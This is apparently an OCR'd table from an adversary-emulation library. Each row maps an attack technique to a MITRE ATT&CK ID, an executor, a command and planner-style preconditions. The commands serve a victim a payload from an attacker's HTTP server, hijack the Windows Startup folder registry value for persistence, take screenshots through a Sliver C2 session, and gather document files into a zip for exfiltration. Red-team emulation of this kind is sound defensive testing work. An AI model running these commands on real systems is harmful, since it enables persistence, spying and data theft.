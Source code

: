 | 4a31f8db-89db-4f16-baab-47bb3f9d5b8a | Simulate the victim download and execute malicious payload file | \['T1204.002'\] | Manual | \['windows', 'linux'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} (If on a Linux machine, you also need to chmod the file)\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', {'operator': 'or', 'operands': \['(exe_file ?file - file)', '(elf_file ?file - file)'\]}\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)'\] |
| 8834b65a-f808-4ece-ad7e-2acdf647aafa | Change Startup Folder - HKCU Modify User Shell Folders Startup Value | \['T1547.001'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder'\] | This test will modify the HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders  -V "Startup" value <br>to point to a new startup folder where a payload could be stored to launch at boot.  *successful execution requires system restart<br> | {'executor': 'Powershell Executor', 'command': 'New-Item -ItemType Directory -path "#{new_startup_folder}"\nCopy-Item -path "#{payload}" -destination "#{new_startup_folder}"\nSet-ItemProperty -Path  "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User Shell Folders" -Name "Startup" -Value "#{new_startup_folder}"\n'} | {'new_startup_folder': {'description': 'new startup folder to replace standard one', 'type': 'string', 'default': '$env:TMP\\atomictest\\'}, 'payload': {'description': 'executable to be placed in new startup location ', 'type': 'string', 'default': 'C:\\Windows\\System32\\calc.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?payload - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |
| f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |
| b8cbd2a9-6967-4114-b2b5-162098f74a89 | Take Screenshot | \['T1113'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Collection'\] | \['Screen Capture'\] | The `screenshot()` function takes a screenshot of the remote system with screenshot data in PNG format. | {'executor': 'Sliver Executor', 'command': 'screenshot(#{SessionID})'} | {'SessionID': {'default': None, 'description': 'The session ID of the active Sliver connection.', 'type': None}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(screenshot_data_saved ?file - file ?t - host)', '(file_exists ?path - path ?file - file ?t - host)'\] |
| d3d9af44-b8ad-4375-8b0a-4bff4b7e419c | Search files of interest and save them to a single zip file (Windows) | \['T1005'\] | ART | \['windows'\] | \['Collection'\] | \['Data from Local System'\] | This test searches for files of certain extensions and saves them to a single zip file prior to extraction.                              <br> | {'executor': 'Powershell Executor', 'command': '$startingDirectory = "C:"\n$outputZip = "#{output_zip_folder_path}"\n$fileExtensionsString = ".doc, .docx, .txt" \n$fileExtensions = $fileExtensionsString -split ", "\n\nNew-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null\n\nFunction Search-Files {\n  param (\n    \[string\]$directory\n  )\n  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {\n    $fileExtensions -contains $_.Extension.ToLower()\n  }\n  return $files\n}\n\n$foundFiles = Search-Files -directory $startingDirectory\nif ($foundFiles.Count -gt 0) {\n  $foundFilePaths = $foundFiles.FullName\n  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\\data.zip"\n\n  Write-Host "Zip file created: $outputZip\\data.zip"\n  } else {\n      Write-Host "No files found with the specified extensions."\n  }\n'} | {'output_zip_folder_path': {'description': 'Path to directory for saving the generated zip file', 'type': 'Path', 'default': 'PathToAtomicsFolder\\..\\ExternalPayloads\\T1005'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)'\] | \['(certain_extension_data_saved ?file - file ?target - host)', '(file_exists ?output_zip_folder_path - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |